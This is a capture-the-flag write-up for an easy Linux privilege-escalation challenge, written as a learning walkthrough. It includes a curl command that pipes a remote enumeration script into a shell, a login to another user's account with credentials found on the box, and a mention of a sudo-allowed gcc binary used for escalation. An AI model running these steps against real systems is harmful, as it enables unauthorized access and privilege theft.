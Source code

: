# CTF Writeup:  Bit by Bit

## Challenge Overview
* **Category:** Digital Forensics
* **Difficulty:** [Easy]
* **Description:** We have access to a linux box, need to find vulnerabile configuration to escalate privileges and find flag. 


## Tools Used

- [Linpease](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
- [gtfobins](https://gtfobins.github.io/)
- [bash]

---

## Solution

Usual disclaimer here: the following solution was the one that worked and there was some trial and error to find it. Omitting those dead-ends for brevity.  

### Step 1: Initial Access

Challenge requires privilege escalation so let's go script kiddie and fetch a tool to search for privilege escalations (`privesc` as it's call in `the biz`):

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

Well well well. Another user has stored temp creds in a file we have access to. Let's try sshing into their account and see what permissions they have. Fingers crossed they're in sudoers and we can use their privesc ours **sinister laughing**. 

```bash

ssh joan@localhost

```

---

### Step 2: Priv Esc

Now we have access to joan's account, see what groups she's in

```bash
groups
Joan sudo
```

Cool, now let's add our pentester account to sudoers

```bash
sudo usermod -aG sudo Pentester
Sorry, user Joan is not allowed to execute '/usr/sbin/usermod -aG sudo Pentester' as root on dad5f987a15f."
```

Rubbing the brow here as I was heading for a PB for unfinished challenges in this event. Thankfully team-work makes the dream work and I looked to the east for a wizard saviour:

![image](https://github.com/user-attachments/assets/ae3a0073-47c4-4fd2-8951-ded3391ab218)

Lol, thanks wizard 🧙 10 seconds, one command, and a URL later: 

```bash
sudo -l
(ALL) NOPASSWD: /usr/bin/gcc
```

[https://gtfobins.github.io/gtfobins/gcc#sudo]

Doopdeedoop:




---

### Step 3: Flag Retrieval

Now we have root, the flag's gotta be here somewhere, normally just use find (looking for flag.txt) or grep (looking for FLAG within a file) on the entire file system. 


![image](https://github.com/user-attachments/assets/08fef0f2-78d4-4051-baac-8a8a62515e4a)


---

## Notes

- Don't be afraid to ask for help when you get blocked. Difficult for you can be easy for someone else and vice versa. 
- As a team, set up some tools in comms (like threads in channels) to share progress on challenges. 

---



